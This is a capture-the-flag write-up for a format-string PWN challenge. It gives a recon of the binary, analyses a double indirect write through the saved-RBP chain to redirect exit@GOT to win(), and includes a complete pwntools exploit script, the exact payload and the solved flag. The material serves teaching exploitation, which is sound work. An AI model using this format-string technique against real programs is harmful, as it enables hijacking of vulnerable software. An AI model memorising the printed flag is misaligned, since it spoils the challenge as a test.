

# Talking Mirror

**CTF/platform:** Pragyan CTF 2026

**Category:** PWN

**Difficulty:** Hard (~30 solves)

**Description:** This cursed mirror just repeats everything I say. I asked it for the flag and it just mocks me...

**Remote:** `ncat --ssl talking-mirror.ctf.prgy.in 1337`

**Flag:** `p_ctf{7hETAlk!n6M!RR0RSpOkeONE7OOmANyT!m3S}`

## Description

> This cursed mirror just repeats everything I say. I asked it for the flag and it just mocks me...

## Reconnaissance

### Binary protections

```
$ checksec challenge
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
```

**Note**: checksec says "No canary" but the binary DOES have canary (`mov %fs:0x28,%rax`). Not verified because `vuln()` never returns (calls `exit()`).

### Key functions

```c
// win() @ 0x401216 — reads and prints flag.txt
void win() {
    puts("Congratulations: ");
    FILE *f = fopen("flag.txt", "r");
    char buf[64];
    fgets(buf, 64, f);
    printf("%s", buf);
    fclose(f);
    _exit(0);
}

// vuln() @ 0x4012a3 — FORMAT STRING VULNERABILITY
void vuln() {
    char buf[0x64];
    fgets(buf, 0x64, stdin);  // reads up to 100 bytes
    printf(buf);               // ← VULNERABILITY
    exit(0);                   // never returns
}
```

### Stack layout (vuln)

```
offset 6  = buffer[0:8]    (rbp - 0x70, buffer start)
offset 19 = canary          (rbp - 0x08)
offset 20 = saved RBP       (main_bp, stack address)
offset 21 = return address   (0x40134e → main+0x5d)
offset 22 = *(main_bp)      (value that main saved with push %rbp = 0x1)
```

### Memory map

```
0x400000-0x400a90  LOAD RW   ← .got.plt (0x400a00), .data, .bss
0x401000-0x401379  LOAD R-X  ← .text (executable code)
0x402000-0x4021ac  LOAD R--  ← .rodata
0x403e10-0x404000  LOAD RW   ← .init_array, .fini_array, .dynamic, .got
                   GNU_RELRO → THIS REGION IS READ-ONLY AT RUNTIME
```

## Vulnerability Analysis

### The triple problem

1. **Format string**: `printf(buf)` allows arbitrary read/write
2. **GOT inaccessible by fgets**: All GOT entries are at `0x400aXX` — the `0x0a` byte (newline) terminates `fgets()`, making it impossible to put these addresses in the buffer
3. **`.fini_array` protected**: Although checksec says "Partial RELRO", the GNU_RELRO segment covers `0x403e10-0x404000`, including `.fini_array` (0x403e18). It's **read-only** at runtime.

### Rabbit holes (failed attempts)

| Technique | Why it fails |
|---------|---------------|
| Overwrite `.fini_array` | Protected by GNU_RELRO → SIGSEGV |
| Overwrite `exit@GOT` directly | Address `0x400a50` has `0x0a` → fgets cuts it |
| Buffer overflow → ROP | Buffer 100 bytes, canary at +104, and `exit()` prevents return |
| Overwrite return address | `exit()` is called before `ret` |

## Vulnerability: Indirect write via RBP chain

- **Type**: Format String Write via RBP pointer chain
- **CWE**: [CWE-134](https://cwe.mitre.org/data/definitions/134.html) — Use of Externally-Controlled Format String

### The pointer chain

```
Offset 20: contains main_bp (stack address, e.g. 0x7ffecb9d0460)
           → points to the location where main saved the previous rbp
           → that location is exactly what offset 22 reads

Offset 22: reads from *(main_bp) = original value 0x1 (high bytes = 0)
```

### The trick: SEQUENTIAL vs POSITIONAL arguments

**CRITICAL**: In glibc, positional arguments (`%N$`) are pre-cached in an array before processing the format string. This means if `%20$n` modifies *(main_bp), `%22$hn` will NOT see the change — it will use the cached value.

With **sequential** arguments (no `$`), glibc uses `va_arg()` which reads from the stack in real-time. After `%n` (arg 20) modifies *(main_bp), the next `va_arg` for arg 22 reads the **updated** value.

## Exploitation

### Step 1: Stack leaks

```bash
# Connect and send leak
$ echo 'AAAA%20$p.%21$p.%22$p' | ncat --ssl talking-mirror.ctf.prgy.in 1337
AAAA0x7ffecb9d0460.0x40134e.0x1
```

- **offset 20** = `0x7ffecb9d0460` (main_bp, stack address)
- **offset 21** = `0x40134e` (return address to main)
- **offset 22** = `0x1` (*(main_bp), high bytes = 0)

### Step 2: Construct the payload

**Objective**:
1. `%n` at arg 20 → writes `0x400a50` (exit@GOT) to *(main_bp)
2. `%hn` at arg 22 → writes `0x1216` (win()) to exit@GOT

**Calculations**:

```
exit@GOT = 0x400a50 = 4,196,944 decimal
win()    = 0x401216

# Step 1: print 4,196,944 chars before %n
# %4196926c (arg 1) + 18 × %c (args 2-19) = 4,196,926 + 18 = 4,196,944
# %n (arg 20) writes 4,196,944 = 0x00400A50 as int32 to *(main_bp)

# Step 2: adjust count for %hn
# 4,196,944 mod 65536 = 2,640
# Need: 0x1216 = 4,630
# Difference: 4,630 - 2,640 = 1,990 more chars
# %1990c (arg 21) → total = 4,198,934 mod 65536 = 4,630 = 0x1216
```

**Final payload** (56 bytes):

```
%4196926c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%n%1990c%hn
```

### Step 3: Complete exploit

**Minimal version** (`min.py`):

```python
#!/usr/bin/env python3
from pwn import *

EXIT_GOT = 0x400a50  # = 4,196,944
WIN_ADDR = 0x401216

PAD1 = EXIT_GOT - 18  # 4,196,926
PAD2 = (WIN_ADDR & 0xFFFF) - (EXIT_GOT % 65536)  # 1990

fmt = f"%{PAD1}c" + "%c" * 18 + "%n" + f"%{PAD2}c" + "%hn"
payload = fmt.encode()  # 56 bytes

p = remote('talking-mirror.ctf.prgy.in', 1337, ssl=True)
p.recvuntil(b'repeat it.\n')
p.sendline(payload)

# Receive ~4.2MB of output (padding + flag)
data = p.recvall(timeout=120)
text = data.decode(errors='ignore')

if 'p_ctf' in text:
    idx = text.index('p_ctf')
    flag = text[idx:].split('}')[0] + '}'
    print(f"FLAG: {flag}")

p.close()
```

**Full version with logging:** See `solve.py` for a more robust implementation with detailed logging, chunked reception, and automatic flag saving.

### Execution flow

```
1. fgets() reads the payload (56 bytes, no 0x0a)
2. printf() processes sequentially:
   a. %4196926c → prints 4,196,926 spaces (arg 1 = rsi)
   b. 18 × %c   → prints 18 chars (args 2-19)
   c. %n         → writes 4,196,944 = 0x400A50 to *(main_bp) [arg 20]
                    → offset 22 now contains 0x400A50 = exit@GOT
   d. %1990c     → prints 1990 chars (arg 21 = return addr)
   e. %hn        → writes 4630 = 0x1216 to *(exit@GOT) [arg 22]
                    → exit@GOT: 0x401126 → 0x401216 = win()
3. exit() → jmp *(exit@GOT) → jmp 0x401216 → win()
4. win() opens flag.txt, prints the flag, calls _exit(0)
```

**Output**: ~4.2MB of spaces + `Congratulations: p_ctf{7hETAlk!n6M!RR0RSpOkeONE7OOmANyT!m3S}`

## Flag

```
p_ctf{7hETAlk!n6M!RR0RSpOkeONE7OOmANyT!m3S}
```

## Lessons Learned

1. **GNU_RELRO protects `.fini_array`** even in Partial RELRO. Always check `readelf -l` to see what the RELRO segment covers.

2. **Sequential vs positional arguments in glibc**: `%N$` (positional) pre-caches all values before processing → double-write does NOT work. `%c%c...%n` (sequential) uses `va_arg` in real-time → double-write DOES work.

3. **The RBP chain is universal**: saved RBP is always on the stack and points to another stack location. Ideal for indirect writes when target addresses have bad bytes.

4. **4MB of output is viable**: format string with `%4196926c` generates ~4MB of padding. With adequate timeout (~120s), the exploit works perfectly over TLS.

5. **checksec can lie**: "No canary" if canary exists but is not verified (due to exit() before ret). Always verify the disassembly.

---

## PoC

### Exploit Execution



*Screenshot showing successful execution of the format string exploit. The payload generates approximately 4.2 MB of output (padding spaces) followed by the "Congratulations:" message and the flag.*

The exploit uses sequential format string arguments to perform double indirect write:
1. Modifies saved RBP to point to `exit@GOT`
2. Writes address of `win()` to `exit@GOT`
3. When `vuln()` calls `exit()`, it executes `win()` which prints the flag
